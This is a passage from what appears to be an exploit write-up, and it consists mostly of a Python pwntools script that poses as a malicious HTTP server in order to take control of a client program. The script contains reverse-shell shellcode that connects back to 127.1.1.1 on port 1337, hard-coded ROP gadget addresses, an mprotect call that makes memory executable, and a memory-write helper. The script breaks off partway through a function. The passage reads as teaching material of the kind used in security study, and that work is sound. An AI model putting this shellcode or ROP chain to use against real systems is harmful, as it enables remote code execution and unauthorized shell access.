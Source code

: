 ## Getting the Shell

Now we can compile everything we have into a working exploit:

```python
#!/usr/bin/python

from pwn import *
import time
import socket

# HTTP Headers

headers = """HTTP/1.1 200 OK
Server: PwnServ/v1.0
Date: Sun, 11 Mar 1994 13:37:00 GMT
Content-Type: text/html
Transfer-Encoding: chunked

"""

# Reverse Shell TCP Shellcode adapted from Russell Willis

ip_addr = "127.1.1.1"
ip_addr_packed = socket.inet_aton(ip_addr)
port = 1337
port_packed = p16(port, endian="big")
shellcode = (
        "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a" +
        "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0" +
        "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24" +
        "\x02"+ port_packed + "\xc7\x44\x24\x04" + ip_addr_packed+
        "\x48\x89\xe6\x6a\x10" +
        "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48" +
        "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a" +
        "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54" +
        "\x5f\x6a\x3b\x58\x0f\x05")

# ROP Gadgets

pop_rsp = 0x00000000004077e9     # pop rsp; ret;
stack_pivot = 0x000000000049daa9 # add rsp, 0x58; ret;
push_rbx_jmp_rdi = 0x000000000117fc75 # push rbx; jmp rdi;

mprotect_segment = 0x01646000
mprotect_size = 0x500
mprotect_prot = 0x1 | 02 | 0x4

pop_rdi = 0x0000000000407c39
pop_rsi = 0x0000000000408b2c
pop_rdx = 0x0000000000408859

write_gadget = 0x0000000000422544 # mov qword ptr [rsi], rdx; ret;

mprotect_plt = 0x4071f0


def generate_mov(address_base, data):
    """Move data into memory startng at the given address_base with a write
    gadget."""

    def chunks(l, n):
        """Yield successive n-sized chunks from l."""
        for i in range(0, len(l), n):
```